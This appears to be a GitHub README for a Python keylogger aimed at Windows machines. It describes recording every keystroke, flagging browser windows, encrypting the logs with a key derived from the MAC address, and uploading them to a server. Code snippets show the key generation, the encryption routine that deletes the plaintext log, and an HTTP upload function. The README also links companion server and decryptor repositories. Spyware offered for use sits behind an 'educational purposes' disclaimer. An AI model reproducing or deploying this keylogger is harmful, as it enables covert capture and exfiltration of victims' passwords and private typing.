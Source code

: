 # Keylogger Python Script

This Python script demonstrates a keylogger that captures keystrokes on a Windows machine. The script uses the `pynput` library for listening to keyboard events and `cryptography` to encrypt the captured keystrokes. It is intended for educational purposes only and should not be used for illegal activities.

## Features:
- Captures all keypress events.
- Logs keystrokes to a file.
- Automatically flushes the buffer every 5 seconds or 100 characters.
- Encrypts the log file using `cryptography.fernet` encryption.
- Uploads the encrypted file to a server (optional).

## Prerequisites:
- Python 3.x
- Required libraries:
  - `cryptography`
  - `pynput`
  - `requests`
  - `pywin32` (for Windows API interaction)
  
You can install the required libraries using pip:

```bash
pip install cryptography pynput requests pywin32
```
## How it Works:
  - Key Generation: The script generates a unique key based on the machine's MAC address to encrypt and decrypt the log file.
  - Keylogger: Captures all keystrokes and identifies special keys like Enter, Space, and Backspace.
  - Browser Detection: Checks if the active window is a browser (Chrome, Firefox, Edge, Opera) to make browser-specific corrections in the logs.
  - Buffer Management: Keystrokes are stored in a buffer and flushed to a log file periodically or when the buffer reaches 100 characters.
  - Encryption: The log file is encrypted using the Fernet symmetric encryption method.
  - File Upload: Optionally, after encryption, the log file can be uploaded to a server.

## Code Walkthrough:

Key Generation
The machine key is generated using the MAC address, which is then base64-encoded for encryption purposes.

```bash
def generate_machine_key():
    mac_address = uuid.getnode()
    mac_str = str(mac_address).encode()
    padded = mac_str.ljust(32, b' ')
    return urlsafe_b64encode(padded)
```
## Keystroke Handling
- The handle_keypress function processes keypress events, distinguishing between regular keys and special keys (e.g., Enter, Backspace). The keystrokes are stored in a buffer.

## Encryption
- The captured keystrokes are written to a log file, which is later encrypted using the cryptography.fernet module.
```bash
def encrypt_file(filename, cipher):
    try:
        with open(filename, "rb") as f:
            data = f.read()
        encrypted = cipher.encrypt(data)
        with open(f"{filename}.encrypted", "wb") as f:
            f.write(encrypted)
        os.remove(filename)
        print(f"File encrypted: {filename}.encrypted")
    except Exception as e:
        print(f"Encryption error: {e}")
```
## Uploading the Encrypted File
After encryption, the log file can be uploaded to a server. In this case, it uses a mock URL (http://localhost:3000/upload), but this can be replaced with an actual upload server.

```bash 
def upload_file(filename):
    try:
        with open(filename, "rb") as f:
            requests.post("http://localhost:3000/upload", files={"file": f})
        print("Upload successful")
    except Exception as e:
        print(f"Upload failed: {e}")
```
## Running the Script
- To start the keylogger, simply run the script. It will start listening for keypress events, log them, and encrypt the log when you press the ESC key.

```bash
python keylogger.py
```
- Press ESC to stop the keylogger. After stopping, the log file is encrypted and can be uploaded if desired.

Disclaimer:
This script is for educational purposes only. Using this script for malicious purposes, such as capturing someone's keystrokes without their consent, is illegal and unethical. Ensure you have proper authorization before using this script.

## This repo also include the encryption and decryption tools that used . you can find documntion for those as following 
   - Server : https://github.com/ukihunter/Simple-server
   - Decryptor : https://github.com/ukihunter/File-Decryption-Script
   - Encryptor key : https://github.com/ukihunter/Machine-Specific-Key-Generator





